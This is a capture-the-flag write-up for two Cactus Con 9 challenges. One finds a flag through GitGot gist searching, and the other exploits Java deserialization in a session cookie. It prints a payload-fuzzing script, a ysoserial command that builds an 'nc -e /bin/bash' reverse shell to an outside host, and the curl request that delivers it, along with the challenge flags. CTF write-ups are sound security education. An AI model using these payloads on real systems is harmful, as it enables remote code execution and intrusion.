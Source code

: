 # Cactus Con 9 – Missing Fox

## Challenge 1: GitGot

>  Agent Bishop, as per our discussion over the phone I am sending you the files agent Fox left on the USB thumb drive before she was kidnapped near the central park. We think she was close to uncovering the hideout of the group that was organizing large scale Phishing camps using our organization name. Download the files from here: https://drive.google.com/file/d/1haMoHnB-NiNJfshXMl7hAU_0msyAI5Iw/view?usp=sharing

> author: @Rayhan0x01

---

This is a pretty straightforward and easy challenge, more misc than web. Everything you need is provided, you just have to run it.

# Solution
After unzipping the provided archive, a `.bash_history` file is found. 

![](https://i.imgur.com/AbZnsb5.png)

 Run the same commands with your own github token from https://github.com/settings/tokens

GitGot will find https://gist.github.com/knightHound/7fccc4e66decababa249cad3ae73c8a7

![](https://i.imgur.com/OBqvmIq.png)

In the gist, this line containing the flag is found
`var firefox_0x17cf = ['f','l','a','g','{53mi_4ut0m4t3d_in_4n_4ut0m4t3d_w0r1d}']`

> flag{53mi_4ut0m4t3d_in_4n_4ut0m4t3d_w0r1d}

---

## Challenge 2: GadgetProbe
>Agent Bishop, we were able to recover one additional file that was corrupted before it could be copied fully on the USB thumb drive, it contains a web portal that we think might be related to her kidnappers! I'm sure you found something in the previous engagement that can be useful here! http://167.172.18.80:8195/

> author: @rayhan0x01

--- 
This challenge involves a java deserialization vulnerability in the session cookie. I'm surprised I had the only solve because, similar to the previous challenge, most of what you need is already directly provided.

# Solution
The provided website doesn't seem to have anything immediately useful, lets check the provided files.

In the extracted folder, there are three files. A .jar and .java file for generating serialized payloads, and a python script for fuzzing the payloads on a webserver.

![](https://i.imgur.com/Fu1zmlX.png)

Also included are three wordlists containing java classes.

The python script is currently setup to fuzz the JSESSID cookie on http://172.16.95.1:8000.
```python
import subprocess, sys, requests

banner = """

Generate GadgetProbe payloads in base64 with free dnsbin (https://requestbin.net/dns) or (http://dnsbin.zhack.ca/)
Usage: python3 GadgetSmith.py wordlist.txt XXXXX.d.requestbin.net

"""

if len(sys.argv) < 2:
	print(banner)
	sys.exit()

wordlist = sys.argv[1]

dnsbin = sys.argv[2]

get_payloads = subprocess.getoutput("java -cp '.:GadgetProbe-1.0-SNAPSHOT-all.jar' gen_payloads.java %s %s" % (wordlist,dnsbin))

payloads = [ x for x in get_payloads.split('\n') if x.startswith('rO0') ]


if not payloads:
	print("[!] Something went wrong while generating payloads!")
	sys.exit()


for payload in payloads:
	resp = requests.get("http://172.16.95.1:8000",timeout=30,headers={"Cookie": "JSESSID=%s" % payload}).text
	print(".",end="")
```

We can change the url from `http://172.16.95.1:8000` to the website given in the challenge (http://167.172.18.80:8195/).

The new website also uses `PHPSESSID`, rather than `JSESSID`, so we will change that as well.

The GadgetProbe fuzzer works by generating dns request serialized payloads, so we'll need a dns server to use. I'll use https://requestbin.net/dns.

Run the fuzzer with `python3 fuzz.py wordlists/FasterXML_blacklist.list 3a92c6f9307885c925f7.d.requestbin.net` and watch for incoming dns requests.

In our received data on requestbin, we see a dns request from the  `groovy.beans.BindableASTTransformation` class.

![](https://i.imgur.com/BOSGWW4.png)

We now know that deserialization with the `groovy.beans.BindableASTTransformation` class worked, so let's generate a base64 encoded reverse shell payload with [ysoserial](https://github.com/frohoff/ysoserial).
`java -jar /opt/ysoserial-master-6eca5bc740-1.jar Groovy1 'nc -e /bin/bash downgrade.ml 4444' | base64 -w 0 > payload.txt`

Start a netcat listener to catch the reverse shell 
`nc -lnvp 4444`

And make a request to the server with the payload as the `PHPSESSID` cookie. 
```curl -H "Cookie: PHPSESSID=`cat payload.txt`" http://167.172.18.80:8195/```

Success!

![](https://i.imgur.com/6JDFYeP.png)

We can `cat flag.txt`


![](https://i.imgur.com/Hq5gRS5.png)

> flag{got_99_problems_but_a_gadget_aint_one}
